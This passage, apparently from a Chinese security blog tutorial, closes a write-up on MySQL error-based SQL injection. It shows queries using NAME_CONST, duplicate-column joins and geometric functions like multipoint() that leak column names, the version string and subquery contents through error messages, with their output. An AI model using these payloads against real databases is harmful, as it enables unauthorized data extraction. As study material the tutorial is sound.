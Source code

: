 ## 0x04 其他特性

### 列名重复

mysql列名重复会报错，我们利用name_const来制造一个列：

```
mysql> select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
ERROR 1060 (42S21): Duplicate column name '5.7.17'
```

根据[官方文档](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_name-const)，name_const函数要求参数必须是常量，所以实际使用上还没找到什么比较好的利用方式。

利用这个特性加上join函数可以爆列名：

```
mysql> select *  from(select * from test a join test b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select *  from(select * from test a join test b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```

### 几何函数

mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错。经测试，在版本号为5.5.47上可以用来注入，而在5.7.17上则不行：

```
5.5.47
mysql> select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
5.7.17
mysql> select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing
```

# 后记

暂时就总结这么多了，可能还有遗漏以后再补充。

参考资料：

[http://codecloud.net/60086.html](http://codecloud.net/60086.html)

[http://www.jinglingshu.org/?p=4507](http://www.jinglingshu.org/?p=4507)

[http://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html](http://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html)